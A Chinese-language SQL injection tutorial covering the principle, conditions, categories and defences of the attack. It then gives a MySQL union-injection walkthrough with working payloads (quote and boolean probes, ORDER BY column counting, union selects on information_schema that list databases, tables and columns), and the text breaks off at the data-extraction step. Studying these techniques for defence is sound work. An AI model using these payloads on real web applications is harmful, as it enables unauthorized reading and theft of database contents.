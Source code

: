## sql注入原理：</br>
攻击者构造的特殊SQL语句的内容传到web应用，没有经过过滤或者严格的过滤，被带入到了数据库中进行执行，导致获取或者修改数据库中的数据。</br>
## sql注入漏洞关键条件：</br>
（1）用户能控制输入内容；</br>
（2）web应用没有严格过滤输入的内容，将其带入到数据库执行</br>
## sql注入的分类：</br>
（1）按照数据库分类：MySQL数据库注入、sqlserver数据库注入、access数据库注入、Oracle数据库注入、nosql注入;</br>
（2）按照语句划分：select，update，insert，delete，limit之后的注入，order by之后的注入；</br>
（3）按照位置划分：get，post，http header(cookie,referrer,user-agent等)；</br>
（4）按照SQL注入点反馈类型分类：union类型，基于错误显示，布尔类型，基于时间，其他类型；</br>
（5）其他类型：base64注入，二次编码注入，宽字节注入，OOB-dns外带注入</br>
## sql注入的防御方法：</br>
（1）定制黑名单：将常用的SQL注入字符写入到黑名单中，然后通过程序对用户提交的POST、GET请求以及请求中的各个字段都进行过滤检查，筛选威胁字符。</br>
（2）限制查询长度：由于SQL注入过程中需要构造较长的SQL语句，因此，一些特定的程序可以使用限制用户提交的请求内容的长度来达到防御SQL注入的目的，但这种效果并不好。</br>
（3）限制查询类型：限制用户请求内容中每个字段的类型，并在用户提交请求的时候进行检查，凡不符合该类型的提交就认为是非法请求。</br>
（4）白名单法：该方法只对部分程序有效，对一些请求内容相对固定的程序，可以制定请求内容的白名单，如：某程序接受的请求只有数字，且数字为1至100，这样可以检查程序接受的请求内容是否匹配，如果不匹配，则认为是非法请求。</br>
（5）设置数据库权限：根据程序要求为特定的表设置特定的权限，如：某段程序对某表只需具备select权限即可，这样即使程序存在问题，恶意用户也无法对表进行update或insert等写入操作。</br>
（6）限制目录权限：WEB目录应至少遵循“可写目录不可执行，可执行目录不可写”的原则，在此基础上，对各目录进行必要的权限细化。</br>
## 重点谈一谈MySQL注入：</br>
### 联合注入：</br>
（1）判断是否有注入及注入点的类型</br>
是否有注入：加单引号，and 111=111，and ’1’=’1’，and 1=2，or 1=1，or 1=2</br>
注入点类型：字符型（’，”，’），”)，%’），数字型</br>
（2）判断查询列数（order by）</br>
原理order by 是排序的语句：</br>
```SQL
select * from users order by id
select * from users order by id desc
select * from users order by 1
```
（3）联合查询</br>
id=1’ union select 1,2,3--+</br>
id=-1’ union select 1,2,3--+</br>
（4）获取基本信息</br>
version()  数据库版本</br>
database()  当前网站使用的数据库</br>
user()  当前网站使用的数据库账户</br>
@@secure_file_priv         数据库的读写文件</br>
@@datadir  数据库安装目录：phpstudy（c:\phpstudy\mysql;c:\phpstudy\www）、wamp（c:\wamp\mysql;c:\wamp\www）</br>
（5）获取数据库名</br>
information_schema数据库（schemata表、tables表、columns表）；</br>
schemata表里面获取数据库名：</br>
select schema_name from schemata;</br>
id=1' union select 1,2,group_concat(schema_name) from information_schema.schemata</br>
（6）获取表名（tables表）</br>
select table_name from tables where table_schema='security';</br>
select table_name from tables where table_schema=database();</br>
id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()</br>
（7）获取列名（columns表）</br>
select column_name from columns where table_schema='security' and table_name='users';</br>
（8）优化步骤</br>
select table_name,column_name from columns where table_schema='security';</br>
id=1' union select 1,2,group_concat(table_name,'_',column_name) from information_schema.columns where table_schema=database()</br>
（9）获取数据</br>